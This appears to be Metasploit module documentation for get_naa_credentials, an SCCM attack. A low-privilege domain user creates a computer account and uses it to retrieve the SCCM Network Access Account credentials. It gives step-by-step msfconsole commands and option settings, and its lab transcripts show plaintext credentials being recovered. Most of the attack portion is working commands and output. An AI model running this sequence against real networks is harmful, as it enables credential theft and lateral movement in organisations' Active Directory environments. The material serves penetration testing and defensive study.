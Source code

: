 ## NAA Credential Exploitation

The NAA account is used by some SCCM configurations in the policy deployment process. It does not require many privileges, but 
in practice is often misconfigured to have excessive privileges.

The account can be retrieved in various ways, many requiring local administrative privileges on an existing host. However,
it can also be requested by an existing computer account, which by default most user accounts are able to create.


## Module usage
The `admin/dcerpc/samr_computer` module is generally used to first create a computer account, which requires no permissions:

1. From msfconsole
2. Do: `use auxiliary/admin/dcerpc/samr_account`
3. Set the `RHOSTS`, `SMBUser` and `SMBPass` options
   a. For the `ADD_COMPUTER` action, if you don't specify `ACCOUNT_NAME` or `ACCOUNT_PASSWORD` - one will be generated automatically
   b. For the `DELETE_ACCOUNT` action, set the `ACCOUNT_NAME` option
   c. For the `LOOKUP_ACCOUNT` action, set the `ACCOUNT_NAME` option
4. Run the module and see that a new machine account was added

Then the `auxiliary/admin/sccm/get_naa_credentials` module can be used:

1. `use auxiliary/admin/sccm/get_naa_credentials`
2. Set the `RHOST` value to a target domain controller (if LDAP autodiscovery is used)
3. Set the `USERNAME` and `PASSWORD` information to a domain account
4. Set the `COMPUTER_USER` and `COMPUTER_PASSWORD` to the values obtained through the `samr_computer` module
5. Run the module to obtain the NAA credentials, if present.

Alternatively, if the Management Point and Site Code are known, the module can be used without autodiscovery:

1. `use auxiliary/admin/sccm/get_naa_credentials`
2. Set the `COMPUTER_USER` and `COMPUTER_PASSWORD` to the values obtained through the `samr_computer` module
3. Set the `MANAGEMENT_POINT` and `SITE_CODE` to the known values.
4. Run the module to obtain the NAA credentials, if present.

The management point and site code can be retrieved using the `auxiliary/gather/ldap_query` module, using the `ENUM_SCCM_MANAGEMENT_POINTS` action.

See the Scenarios for a more detailed walk through

## Options

### RHOST, USERNAME, PASSWORD, DOMAIN, SESSION, RHOST
Options used to authenticate to the Domain Controller's LDAP service for SCCM autodiscovery.

### COMPUTER_USER, COMPUTER_PASSWORD

Credentials for a computer account (may be created with the `samr_account` module). If you've retrieved the NTLM hash of
a computer account, you can use that for COMPUTER_PASSWORD.

### MANAGEMENT_POINT
The SCCM server.

### SITE_CODE
The Site Code of the management point.

## Scenarios
In the following example the user `ssccm.lab\eve` is a low-privilege user.

### Creating computer account

```
msf6 auxiliary(admin/dcerpc/samr_account) > run rhost=192.168.33.10 domain=sccm.lab username=eve password=iloveyou
[*] Running module against 192.168.33.10

[*] 192.168.33.10:445 - Adding computer
[+] 192.168.33.10:445 - Successfully created sccm.lab\DESKTOP-2KVDWNZ3$
[+] 192.168.33.10:445 -   Password: pJTrvFyDHiHnqtlqTTNYe2HPVpO3Yekj
[+] 192.168.33.10:445 -   SID:      S-1-5-21-3875312677-2561575051-1173664991-1128
[*] Auxiliary module execution completed
```

### Running with Autodiscovery
Using the credentials just obtained with the `samr_account` module.

```
msf6 auxiliary(admin/sccm/get_naa_credentials) > options

Module options (auxiliary/admin/sccm/get_naa_credentials):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   COMPUTER_PASS                      yes       The password of the provided computer account
   COMPUTER_USER                      yes       The username of a computer account
   MANAGEMENT_POINT                   no        The management point (SCCM server) to use
   SITE_CODE                          no        The site code to use on the management point
   SSL               false            no        Enable SSL on the LDAP connection
   VHOST                              no        HTTP server virtual host


   Used when connecting via an existing SESSION:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                no        The session to run this module on


   Used when making a new connection via RHOSTS:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DOMAIN                     no        The domain to authenticate to
   PASSWORD                   no        The password to authenticate with
   RHOSTS                     no        The domain controller (for autodiscovery). Not required if providing a management point and site code
   RPORT     389              no        The LDAP port of the domain controller (for autodiscovery). Not required if providing a management point and site code (TCP)
   USERNAME                   no        The username to authenticate with


View the full module info with the info, or info -d command.
msf6 auxiliary(admin/sccm/get_naa_credentials) > run rhost=192.168.33.10 username=eve domain=sccm.lab password=iloveyou computer_user=DESKTOP-2KVDWNZ3$ computer_pass=pJTrvFyDHiHnqtlqTTNYe2HPVpO3Yekj
[*] Running module against 192.168.33.10

[*] Discovering base DN automatically
[*] 192.168.33.10:389 Discovered base DN: DC=sccm,DC=lab
[+] Found Management Point: MECM.sccm.lab (Site code: P01)
[*] Got SMS ID: BD0DC478-A71A-4348-BD14-B7E91335738E
[*] Waiting 5 seconds for SCCM DB to update...
[*] Got NAA Policy URL: http://<mp>/SMS_MP/.sms_pol?{c48754cc-090c-4c56-ba3d-532b5ce5e8a5}.2_00
[+] Found valid NAA credentials: sccm.lab\sccm-naa:123456789
[*] Auxiliary module execution completed
```

### Manual discovery

```
msf6 auxiliary(gather/ldap_query) > run rhost=192.168.33.10 username=eve domain=sccm.lab password=iloveyou
[*] Running module against 192.168.33.10

[*] 192.168.33.10:389 Discovered base DN: DC=sccm,DC=lab
CN=SMS-MP-P01-MECM.SCCM.LAB,CN=System Management,CN=System,DC=sccm,DC=lab
=========================================================================

 Name           Attributes
 ----           ----------
 cn             SMS-MP-P01-MECM.SCCM.LAB
 dnshostname    MECM.sccm.lab
 mssmssitecode  P01

[*] Query returned 1 result.
[*] Auxiliary module execution completed

msf6 auxiliary(gather/ldap_query) > use auxiliary/admin/sccm/get_naa_credentials

msf6 auxiliary(admin/sccm/get_naa_credentials) > run computer_user=DESKTOP-2KVDWNZ3$ computer_pass=pJTrvFyDHiHnqtlqTTNYe2HPVpO3Yekj management_point=MECM.sccm.lab site_code=P01

[*] Got SMS ID: BD0DC478-A71A-4348-BD14-B7E91335738E
[*] Waiting 5 seconds for SCCM DB to update...
[*] Got NAA Policy URL: http://<mp>/SMS_MP/.sms_pol?{c48754cc-090c-4c56-ba3d-532b5ce5e8a5}.2_00
[+] Found valid NAA credentials: sccm.lab\sccm-naa:123456789
[*] Auxiliary module execution completed
```